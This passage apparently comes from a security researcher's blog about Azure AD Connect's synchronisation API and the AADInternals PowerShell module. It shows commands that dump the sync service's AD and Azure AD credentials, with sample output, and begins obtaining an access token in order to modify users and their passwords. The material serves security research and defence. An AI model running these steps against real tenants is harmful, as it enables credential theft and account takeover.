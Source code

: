 This indicates that the synchronisation is not using the provisioning API nor Azure AD Graph API. Instead, is using an API which I call simply a synchronisation API, which endpoint is https://adminwebservice.microsoftonline.com
**AADInternals** have had support for synchronisation API since the early versions.

The API (and corresponding <a href="/aadinternals/#user-manipulation-with-ad-sync-api" target="_blank">AADInternals functions</a>) allows you modify users and their passwords.

## Dumping Azure AD Connect credentials

Assuming that the AAD Connect is using a local configuration database, dumping the credentials is very straight-forward. Just install the **AADInternals** module and export the credentials:

{{< highlight powershell >}}
# Install AADInternals
Install-Module AADInternals

# Import AADInternals
Import-Module AADInternals

# Dump the AD Connect credentials
Get-AADIntSyncCredentials
{{< /highlight>}}

```
Name                           Value
----                           -----
ADDomain                       company.com  
ADUser                         MSOL_4bc4a34e95fa
ADUserPassword                 Q9@p(poz{#:kF_G)(s/Iy@8c*9(t;...
AADUser                        Sync_SRV01_4bc4a34e95fa@company.onmicrosoft.com                                                      
AADUserPassword                $.1%(lxZ&/kNZz[r
```

## Modifying users

Now that we have credentials of AAD Connect, we can modify users and their passwords. First, we need to get an OAuth access token.
{{< highlight powershell >}}
# Save the credentials to a variable
$creds=Get-Credential 

# Get an access token and save to cache
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
{{< /highlight>}}

